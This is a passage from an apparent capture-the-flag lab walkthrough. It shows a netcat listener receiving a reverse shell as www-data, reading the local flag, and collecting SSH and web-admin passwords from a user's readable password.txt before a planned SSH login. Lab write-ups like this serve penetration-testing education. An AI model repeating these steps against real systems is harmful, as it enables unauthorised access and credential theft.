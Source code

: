 It's there!

14) As soon as we click on it, we get a reverse shell in our local listener (as user `www-data`).

```
┌──(kali㉿kali)-[~/Desktop/upload-me]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.111] 43914
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

15) Dig around abit and eventually find the access flag

```
$ pwd
/var/www
$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Oct 30  2020 .
drwxr-xr-x 14 root     root     4096 Jul 30  2020 ..
drwxr-xr-x  6 root     root     4096 Jul 31  2020 html
-rw-r--r--  1 www-data www-data   33 Mar  4 03:11 local.txt
$ cat local.txt
4020a37711a5c3c7e130e97deaa0b0d6
```

16) Digging around a little longer and we notice that we can read user `tony`'s home directory, including a file `password.txt` with some goodies:

```
$ cd /home
$ ls
tony
$ cd tony
$ ls -la
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

17) I choose to ditch our shell as `www-data` and move on to become `tony`, logging in through the front door (the ssh server on port 22):
